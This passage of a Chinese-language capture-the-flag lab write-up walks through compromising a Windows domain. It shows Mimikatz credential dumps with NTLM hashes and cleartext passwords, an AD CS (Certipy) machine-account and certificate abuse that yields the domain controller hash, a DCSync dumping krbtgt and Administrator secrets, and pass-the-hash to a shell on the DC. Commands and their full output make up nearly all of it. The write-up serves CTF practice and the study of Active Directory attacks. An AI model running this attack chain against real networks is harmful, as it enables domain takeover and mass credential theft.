

### 3.5. 提权System抓机器hash

为了我们下一步的AD-CS ，我们需要一个域成员凭证或者一个机器用户的凭证  
直接上传Sweetpotato和mimikatz

虽然我们是管理员用户，不用提权系统就可以抓到机器hash  
但是后面进行AC-CS攻击需要获取CA名字，这个必须要能与域进行沟通才行，所以还是需要提权到系统用户才行  


```
Using '1.txt' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1902702 (00000000:001d086e)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/20 23:06:31
SID               : S-1-5-90-0-3
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : I@w2(l8:$e9`bRA7&$Rxd^f@6+_,hg\L)&Ck6he8vlsS7*=[e*%bh-wZ.,$HV(0^!/q0eY=sDH_1)6jK3v;#%kt[5YSXt3$y/;R(wAqp1p_`""m=o:Q;HtsY
    ssp :	
    credman :	

Authentication Id : 0 ; 131063 (00000000:0001fff7)
Session           : Interactive from 1
User Name         : Administrator
Domain            : CYBERWEB
Logon Server      : CYBERWEB
Logon Time        : 2025/5/20 12:01:12
SID               : S-1-5-21-332097019-2215467117-1557799732-500
    msv :	
     [00000003] Primary
     * Username : Administrator
     * Domain   : CYBERWEB
     * NTLM     : c377ba8a4dd52401bc404dbe49771bbc
     * SHA1     : d9ac14100bf4e36f6807dd3c29051983b2d58d3d
    tspkg :	
    wdigest :	
     * Username : Administrator
     * Domain   : CYBERWEB
     * Password : (null)
    kerberos :	
     * Username : Administrator
     * Domain   : CYBERWEB
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 51080 (00000000:0000c788)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:09
SID               : S-1-5-90-0-1
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : I@w2(l8:$e9`bRA7&$Rxd^f@6+_,hg\L)&Ck6he8vlsS7*=[e*%bh-wZ.,$HV(0^!/q0eY=sDH_1)6jK3v;#%kt[5YSXt3$y/;R(wAqp1p_`""m=o:Q;HtsY
    ssp :	
    credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CYBERWEB$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:06
SID               : S-1-5-20
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : cyberweb$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 23221 (00000000:00005ab5)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:02
SID               : 
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
    kerberos :	
    ssp :	
    credman :	

Authentication Id : 0 ; 1902442 (00000000:001d076a)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/20 23:06:31
SID               : S-1-5-90-0-3
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : I@w2(l8:$e9`bRA7&$Rxd^f@6+_,hg\L)&Ck6he8vlsS7*=[e*%bh-wZ.,$HV(0^!/q0eY=sDH_1)6jK3v;#%kt[5YSXt3$y/;R(wAqp1p_`""m=o:Q;HtsY
    ssp :	
    credman :	

Authentication Id : 0 ; 309808 (00000000:0004ba30)
Session           : Interactive from 0
User Name         : cslab
Domain            : CYBERSTRIKELAB
Logon Server      : DC
Logon Time        : 2025/5/20 20:03:46
SID               : S-1-5-21-4286488488-1212600890-1604239976-1104
    msv :	
     [00000003] Primary
     * Username : cslab
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 39b0e84f13872f51efb3b8ba5018c517
     * SHA1     : fa6a465532224cc4f1fa5094424bf219d25b7463
     * DPAPI    : 432dfb0f990f2cc292b2fd09468aab5e
    tspkg :	
    wdigest :	
     * Username : cslab
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : cslab
     * Domain   : CYBERSTRIKELAB.COM
     * Password : cs1ab@wwe
    ssp :	
    credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:09
SID               : S-1-5-19
    msv :	
    tspkg :	
    wdigest :	
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :	
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :	
    credman :	

Authentication Id : 0 ; 51021 (00000000:0000c74d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:08
SID               : S-1-5-90-0-1
    msv :	
     [00000003] Primary
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 331dcbb88d1a4847c97eab7c1c168ac8
     * SHA1     : 0a4c17b8f051223716e86c36f1dec902e266c773
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : CYBERWEB$
     * Domain   : cyberstrikelab.com
     * Password : I@w2(l8:$e9`bRA7&$Rxd^f@6+_,hg\L)&Ck6he8vlsS7*=[e*%bh-wZ.,$HV(0^!/q0eY=sDH_1)6jK3v;#%kt[5YSXt3$y/;R(wAqp1p_`""m=o:Q;HtsY
    ssp :	
    credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CYBERWEB$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/5/20 12:00:01
SID               : S-1-5-18
    msv :	
    tspkg :	
    wdigest :	
     * Username : CYBERWEB$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :	
     * Username : cyberweb$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :	
    credman :	

mimikatz # 
```

flag02  


## 4. flag03

### 4.1. AD-CS

拿到了机器用户 `CYBERWEB$` 的hash，我们就可以进行AD-CS攻击了  
首先获取一下CA名字（需要提权到system）  


```
C:\Windows\system32> CertUtil
项 0:

  名称:                         `cyberstrikelab-DC-CA'
  部门:                         `'
  单位:                         `'
  区域:                         `'
  省/自治区:                    `'
  国家/地区:                    `'
  配置:                         `DC.cyberstrikelab.com\cyberstrikelab-DC-CA'
  Exchange 证书:                `'
  签名证书:                     `'
  描述:                         `'
  服务器:                       `DC.cyberstrikelab.com'
  颁发机构:                     `cyberstrikelab-DC-CA'
  净化的名称:                   `cyberstrikelab-DC-CA'
  短名称:                       `cyberstrikelab-DC-CA'
  净化的短名称:                 `cyberstrikelab-DC-CA'
  标记:                         `1'
  Web 注册服务器:               `'
CertUtil: -dump 命令成功完成。

```

获取到CA的名字为 `cyberstrikelab-DC-CA`  
然后就配置hosts了  


```
10.6.6.55 cyberstrikelab.com
10.6.6.55 cyberstrikelab-DC-CA 
10.6.6.55 DC.cyberstrikelab.com
```

然后利用利用 CYBERWEB$ 机器用户新建一个机器用户

```
┌──(root㉿kali)-[~/tmp]
└─# proxychains -q certipy-ad account create -u CYBERWEB$ -hashes 331dcbb88d1a4847c97eab7c1c168ac8  -dc-ip 10.6.6.55 -user citrus -dns DC.cyberstrikelab.com -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.6.6.55:636 - ssl
[+] Default path: DC=cyberstrikelab,DC=com
[+] Configuration path: CN=Configuration,DC=cyberstrikelab,DC=com
[*] Creating new account:
    sAMAccountName                      : citrus$
    unicodePwd                          : 83SkcHcygWb7FCmm
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/citrus
                                          RestrictedKrbHost/citrus
    dnsHostName                         : DC.cyberstrikelab.com
[*] Successfully created account 'citrus$' with password '83SkcHcygWb7FCmm'
```

然后使用创建好的机器账号申请一个证书

```
┌──(root㉿kali)-[~/tmp]
#运行两次，第一次会报错
└─# proxychains -q certipy-ad req -u 'citrus$@cyberstrikelab.com' -p '83SkcHcygWb7FCmm' -ca 'cyberstrikelab-DC-CA' -target 10.6.6.55 -template 'Machine' -debug -dc-ip 10.6.6.55
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.6.6.55[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.6.6.55[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with DNS Host Name 'DC.cyberstrikelab.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc.pfx'
```

然后利用证书即可获取到域控机器账号的Hash

```
┌──(root㉿kali)-[~/tmp]
└─# proxychains -q certipy-ad auth -pfx dc.pfx -dc-ip 10.6.6.55 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc$@cyberstrikelab.com
[*] Trying to get TGT...
[proxychains] Strict chain  ...  172.16.233.2:1145  ...  10.6.6.55:88  ...  OK
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[proxychains] Strict chain  ...  172.16.233.2:1145  ...  10.6.6.55:88  ...  OK
[*] Got hash for 'dc$@cyberstrikelab.com': aad3b435b51404eeaad3b435b51404ee:d1ed4102e40bc473c02156fd10f008ae
```

### 4.2. DCSync

利用域控机器的hash进行DCsync

```
┌──(root㉿kali)-[~/tmp]
└─# proxychains -q impacket-secretsdump cyberstrikelab.com/dc\$@10.6.6.55 -hashes aad3b435b51404eeaad3b435b51404ee:d1ed4102e40bc473c02156fd10f008ae
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:28cfbc91020438f2a064a63fff9871fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:416f4ea64c9c73ad29a4a69dcee5d8ca:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
cyberstrikelab.com\cslab:1104:aad3b435b51404eeaad3b435b51404ee:39b0e84f13872f51efb3b8ba5018c517:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d1ed4102e40bc473c02156fd10f008ae:::
CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:331dcbb88d1a4847c97eab7c1c168ac8:::
citrus$:1105:aad3b435b51404eeaad3b435b51404ee:32c6ee99d6c5551a2a9970b50e5f3dbb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:8583c13a9eca67e085ff0b68af74316bef0ebd3fb197bb235b76cbb72358f2ef
Administrator:aes128-cts-hmac-sha1-96:6012285d474e3b60086965219ac7e31c
Administrator:des-cbc-md5:208fc8f42fae3132
krbtgt:aes256-cts-hmac-sha1-96:0b820697b640266ced6843c4041131c1e3750000e00d47c0c597a82547927337
krbtgt:aes128-cts-hmac-sha1-96:c8f683e4cf2033fd75416667670e13bb
krbtgt:des-cbc-md5:23dc674a76bf7adc
cyberstrikelab.com\cslab:aes256-cts-hmac-sha1-96:34439b0bf9f6e1bf57d4d859215ed387a9c75e944ac053ddd1bc2f1e5b162048
cyberstrikelab.com\cslab:aes128-cts-hmac-sha1-96:84a132b5db39e2e652c08b8148fecb00
cyberstrikelab.com\cslab:des-cbc-md5:46f457ef2aad0e08
DC$:aes256-cts-hmac-sha1-96:020a0f314a1635101d5251bf713b08c65679dc886f7c2fc2d2274ae8c33c46b3
DC$:aes128-cts-hmac-sha1-96:5cc472eacb83037eda8997e293306a83
DC$:des-cbc-md5:d57aef07ce80073e
CYBERWEB$:aes256-cts-hmac-sha1-96:c6e9eb6e232ffd2ff68c00d395857e6755813182e361efa4b712b9a9fc2b19ff
CYBERWEB$:aes128-cts-hmac-sha1-96:b19d111ada0db2ea3020447ed4df7151
CYBERWEB$:des-cbc-md5:9249dae9e60d4a38
citrus$:aes256-cts-hmac-sha1-96:0e9f80f30713479d321f78cdac75167d69320316310eb31a0560923091315e7d
citrus$:aes128-cts-hmac-sha1-96:725ec849efe3c1d5a8409f0a29d6ec08
citrus$:des-cbc-md5:fe0d7f1f49adb92a
[*] Cleaning up... 

```

### 4.3. PTH

```
┌──(root㉿kali)-[~/tmp]
└─# proxychains -q  impacket-wmiexec cyberstrikelab.com/administrator@10.6.6.55 -hashes :28cfbc91020438f2a064a63fff9871fa -codec gbk
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
cyberstrikelab\administrator

C:\>ipconfig

Windows IP 配置


以太网适配器 以太网实例 0:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::441a:298e:c906:5259%8
   IPv4 地址 . . . . . . . . . . . . : 10.6.6.55
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 10.6.6.1

隧道适配器 Reusable ISATAP Interface {A47305BD-AC34-45BA-8AEF-49F091BB3103}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . : 

C:\>hostname
DC
```

flag03  


最后也是侥幸拿下一血  

